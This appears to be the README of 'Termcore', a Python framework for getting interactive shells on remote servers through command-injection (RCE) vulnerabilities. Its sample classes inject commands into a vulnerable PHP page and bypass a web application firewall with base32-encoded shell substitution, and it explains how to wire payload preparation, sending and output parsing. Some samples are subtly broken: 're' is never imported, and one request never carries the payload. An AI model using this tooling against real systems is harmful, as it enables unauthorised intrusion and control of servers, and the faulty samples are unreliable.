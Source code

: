 # Termcore

## Getting remote shells from narrow rce's


# Sample Uses

### Sample shell with hidden user (*this is just a sample this is not by any means secure*)

```py
from termcore import termcore
import os

class myTerm(termcore):
	def Exec(self, payload):
		os.system(payload)

	def customCommands(self, command, params):
		if command == 'whoami':
			print("That command is blacklisted")
			return True
		return False
		
term = myTerm("h", "kali")
```

### Sample shell From a RCE vulnerability (simple)

```py
from termcore import termcore
import os
import base64
import requests

url = 'http://example.com/vulnerable-page.php'

class myTerm(termcore):
	def preExec(self, command, params):
		return '; exec("' + command + " " + params + '")'

	def postExec(self,response):
	    response = re.sub(r"\<.*\>", "", response)
	    return response

	def Exec(self, payload):
		return requests.post(url).text

term = myTerm("www-data", "example.com")
```


### Sample shell From a RCE vulnerability and WAF bypass (advanced)

```py
from termcore import termcore
import os
import base64
import requests

sessid = 'S0m5S3SS10n1Dh3R3' 
url = 'http://example.com/remotecommands'
headers = {
	'Cookie' : 'session=' + sessid,
	'Content-Type': 'application/json'
}

class myTerm(termcore):
	def preExec(self, command, params):
		return "$(''base32 -''d <<< '" + str(base64.b32encode((command + " " + params).encode())) + "')"

	def postExec(self,response):
	    response = re.sub(r"\<.*\>", "", response)
	    return response

	def Exec(self, payload):
		return requests.post(url, data={'schedule': payload}, headers=headers).text

term = myTerm("www-data", "waffedexample.com")
```


# So, what to do?

Well, `import termcore from termcore`, override the stumps, pop some boxes.

## Stumps

### preExec(self, command, params):
> Gets whatever user has entered, and prepares and returns the payload.
> In an imaginary scenario where user needs to wrap their command in $ signs and user enters `ls -al`:
- command: ls
- params: -al
- should return: "$ " + command + " " + params + " $"

### Exec(self, payload):
> Get the payload executed, capture and return the raw response.

For example, 
- if you are just playing in your local, do `os.system(payload)`
- if you are on remote and need to send http request, your preExec should have your payload ready. Send it via requests.get/post
- if you need to send it to a socket on remote, use sockets to send the payload and get the response.

### postExec(self, response):
> Gets whatever response is returned from Exec, and cleans the output. Returns response from the user command.

So if RCE response is returned in as a cookie, get http response and only return the cookie.

If RCE response is returned in a div id="something", parse the html and return only the div innerhtml.

### cd(self, directory): (*OPTIONAL*)
> change working directory.

cd is implemented on the terminal, as it is with any terminal program. If you need to change directories, implement your own logic for it.

### customCommands(self,command, params): (*OPTIONAL*)
> Evaluated first before the Exec. Should return `True` if a custom command is being processed, and `False` if not.


